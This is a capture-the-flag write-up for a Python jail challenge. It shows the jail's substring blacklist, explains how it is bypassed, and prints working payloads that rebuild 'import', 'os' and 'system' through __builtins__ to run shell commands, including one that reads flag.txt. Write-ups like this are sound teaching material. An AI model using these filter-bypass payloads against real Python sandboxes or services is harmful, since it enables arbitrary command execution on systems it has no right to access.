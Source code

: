 PRISON BREAK Cell 1 – 300 pts
Category: PyJail
Description:

This is just a PyJail

To connect:
nc 192.168.8.136 10014

Challenge Overview
The server accepts arbitrary Python input, but blacklists certain keywords before executing the payload via os.execv. The main idea is to execute arbitrary Python code within a restricted environment, i.e., a PyJail.

jail.py:

import os
import sys

confiscated_tools = ['os', 'import', 'flag', 'system']

hax = input("> ")
sys.stdin.close()

if len(hax) > 1024:
    exit(1)

for tool in confiscated_tools:
    if tool in hax:
        exit(1)

code = f"""
{hax}
""".strip()

os.execv(sys.executable, [sys.executable, "-c", code])

Blacklist & Execution
Blacklisted substrings: "os", "import", "flag", "system"


The input is injected into a dynamically constructed string and executed via:

python3 -c "<user_input>"
Any input containing blacklisted substrings gets rejected. Substring matching is used (if tool in hax), not full-word matching or regex. This makes it possible for "__import__" or even "syst" + "em" to be blocked, since "import" and "system" are substrings of those.


Exploitation Strategy
To bypass the jail, I used the following strategy:

Avoid all blacklisted substrings, even when they appear within larger words.

Dynamically reconstruct banned keywords like "import", "os", and "system" using string concatenation.

Use __builtins__ as a starting point to avoid using import directly.

Working Payloads
Step 1: List the directory to confirm the flag file

(__builtins__.__dict__['__im'+'port__']('o'+'s').__dict__['syst'+'em'])('ls')

Output:
flag.txt
run

Step 2: Read the flag
(__builtins__.__dict__['__im'+'port__']('o'+'s').__dict__['syst'+'em'])('cat 
flag.txt')

This bypasses the jail and prints the flag: CITU{th1s_1s_jus7_4n_ez_0n3_w4rd3n_1s_c4r3l3ss}











